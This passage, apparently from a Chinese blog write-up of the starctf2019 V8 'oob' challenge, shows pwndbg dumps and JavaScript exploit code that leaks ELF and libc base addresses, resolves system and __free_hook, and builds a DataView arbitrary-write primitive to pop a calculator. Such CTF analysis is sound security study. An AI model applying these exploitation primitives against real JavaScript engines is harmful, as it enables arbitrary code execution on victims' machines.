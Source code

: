```c
0x558ff135d79b    1b  90             nop


Safepoints (size = 8)

RelocInfo (size = 2)
0x1dced63069c2  off heap target

pwndbg> x/10gx 0x558ff135d780
0x558ff135d780 <Builtins_ArrayConstructor>:	0x8b480574d8553949	0x8b49cf8b4803ebca
0x558ff135d790 <Builtins_ArrayConstructor+16>:	0x0026e9d18b48d85d	0x0000000090900000
0x558ff135d7a0 <Builtins_ArrayConstructor+32>:	0xcccccccc00000003	0xcccccccccccccccc
0x558ff135d7b0 <Builtins_ArrayConstructor+48>:	0xcccccccccccccccc	0xcccccccccccccccc
0x558ff135d7c0 <Builtins_ArrayConstructorImpl>:	0x0ffa3b481f778b48	0x5d39490000013d85
```

object->map->constructor->code 中有一个Builtins_ArrayConstructor函数的地址，这是elf中一个函数，所以用IDA找到偏移：0xfc8780

![image-20200713175249955](D:\github\De4dCr0w.github.io\image\2020-07-13-starctf2019-v8-oob分析\4.png)

0x558ff135d780 减去该偏移就是elf加载的基地址，之后找到free函数got表地址，任意读获取free函数地址，然后利用readelf -s 获取free函数在libc.so中偏移，就可以得到libc的基址，进而获取__free_hook和system函数的地址。

```javascript
var elf_base = leak_constructor_addr - 0xFC8780n;
console.log("[*] elf_base: 0x" + hex(elf_base));
var free_got_addr = elf_base + 0x12AA8B8n;
var free_addr = read64(free_got_addr);
var libc_base = free_addr - 0x9d850n;
console.log("[*] libc_base: 0x" + hex(libc_base));
var system_addr = libc_base + 0x55410n;
console.log("[*] system_addr: 0x" + hex(system_addr));
var free_hook_addr = libc_base + 0x1eeb28n;
console.log("[*] free_hook_addr: 0x" + hex(free_hook_addr));
```

最后将__free_hook地址上填充system地址，释放一个填充“/usr/bin/gnome-calculator"数组对象，就可以弹出计算器。而在实际过程中发现write64写入会报错，需要利用DataView对象封装另一个任意地址写。

```javascript
var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var backing_store_addr = addressOf(data_buf) + 0x20n;

function dataview_write64(addr, data)
{
	write64(backing_store_addr, addr);
	data_view.setFloat64(0, i2f(data), true);
}
```

gdb调试可看到：

```c
pwndbg> job 0x1a568c810929  // data_view
0x1a568c810929: [JSDataView]
 - map: 0x04dd372c1719 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x1dfa5aa4aff9 <Object map = 0x4dd372c1769>
 - elements: 0x29b23ce40c71 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - buffer =0x1a568c8108e9 <ArrayBuffer map = 0x4dd372c21b9>
 - byte_offset: 0
 - byte_length: 8
 - properties: 0x29b23ce40c71 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
```